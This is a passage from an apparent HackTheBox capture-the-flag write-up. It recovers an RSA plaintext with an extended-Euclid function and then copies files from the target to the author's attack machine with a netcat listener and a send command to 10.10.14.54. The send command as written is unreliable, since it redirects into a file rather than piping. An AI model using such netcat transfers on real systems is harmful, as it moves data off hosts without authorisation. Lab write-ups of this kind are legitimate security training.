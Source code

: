 
This can be achived using the following function:

```python
def egcd(a, b):
    x,y, u,v = 0,1, 1,0
    while a != 0:
        q, r = b//a, b%a
        m, n = x-u*q, y-v*q
        b,a, x,y, u,v = a,r, u,v, m,n
    gcd = b
    return gcd, x, y
```

To use it we need to invoke it as such:

```python
# c = pow(m, e, n)
gcd, x, y = egcd(e, (p-1)*(q-1))
```

Once we have this `x` value, we can get the value of the `m` variable using a simple `pow()` operation:

```python
pow(c, x, n)
```


Let's try this out! 


Firt, we need to transfer the files `debug.txt` and `output.txt` to our attack machine. To do this, I setup a simple netcat listener on my attack machine, which redirects the input into a file:

```bash
nc -lnvp 23 > debug.txt
```

Then from the target, I `cat` out the value of `debug.txt` and pipe it to netcat:


```bash
cat debug.txt > nc 10.10.14.54 23
```

I repeat the process for both files, and now I have them both on my attack machine:

![files-40](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Brainfuck/img/files-40.png)
